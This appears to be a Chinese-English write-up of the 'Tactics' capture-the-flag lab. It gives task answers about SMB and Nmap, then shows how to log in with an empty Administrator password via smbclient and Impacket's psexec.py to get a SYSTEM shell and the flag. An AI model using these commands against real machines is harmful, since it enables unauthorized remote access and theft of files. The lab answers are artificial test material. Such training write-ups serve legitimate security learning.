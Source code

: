 <center>Tactics</center>



[toc]







## Tactics

> Tactics







### 1. task

1. Which Nmap switch can we use to enumerate machines when our ping ICMP packets are blocked by the Windows firewall?

```shell
-Pn
```

2. What does the 3-letter acronym SMB stand for?

```shell
Server Message Block
```

3. What port does SMB use to operate at?

```shell
445
```

4. What command line argument do you give to `smbclient` to list available shares?

```shell
-L
```

5. What character at the end of a share name indicates it's an administrative share?

```shell
$
```

6. Which Administrative share is accessible on the box that allows users to view the whole file system?

```shell
C$
```

7. What command can we use to download the files we find on the SMB Share?

```shell
get
```

8. Which tool that is part of the Impacket collection can be used to get an interactive shell on the system?

```shell
psexec.py
```



### 2. Impacket 工具

> Psexec通过在远程系统的ADMIN$共享上上传一个随机命名的可执行文件来创建一个远程服务，然后将其注册为Windows服务。以此产生一个交互式shell，通过TCP端口445在远程Windows系统上执行。
> Psexec要求具有本地管理员或更高权限的用户的凭据（可以读取/写入ADMIN），验证成功后，将获取一个 NT AUTHORITY\SYSTEM shell 。
>
> [github](https://github.com/fortra/impacket.git)  [blog](https://blog.csdn.net/qq_44159028/article/details/121289328)
>
> Impacket 使用： [blog](https://www.cnblogs.com/ciyze0101/p/15315811.html)

```shell
git clone https://github.com/CoreSecurity/impacket.git

python3 -m pipx install .

# docker
docker build -t "impacket:latest" .
docker run -it --rm "impacket:latest"


# arch 
yay -S impacket

# debian 
sudo apt update
sudo apt install snapd
sudo snap install snapd
sudo systemctl restart snapd
sudo systemctl enable snapd
sudo snap install impacket

# 使用
impacket-命令
```

> 使用

```shel
impacket-psexec username:password@target_ip

# 由于Administrator账号是空密码，执行如下：
python3 psexec.py Administrator@10.129.251.55
```

![image-20241202165345939](./assets/image-20241202165345939.png)



### 3. flag

> 获取flag

```shell
nmap -sC -Pn IP
```

![image-20241202162102651](./assets/image-20241202162102651.png)

> 使用**`空密码列出Administrator账号下的共享`**

```shell
smbclient -L 10.129.251.55 -U Administrator
```

![image-20241202162201336](./assets/image-20241202162201336.png)

```shell
ADMIN$ --- 管理共享是由 Windows NT系列操作系统创建的隐藏网络共享，它允许系统管理员远程访问网络连接系统上的每个磁盘卷。这些共享不能被永久删除，但可以被禁用。
C$ --- C:\磁盘卷的管理共享。这是操作系统托管的地方。
IPC$ --- 进程间通信共享。通过命名管道用于进程间通信，不属于文件系统的一部分。
```

> 连接C$共享

```shell
smbclient \\\\IP\\C$ -U Administrator
```

![image-20241202162421731](./assets/image-20241202162421731.png)





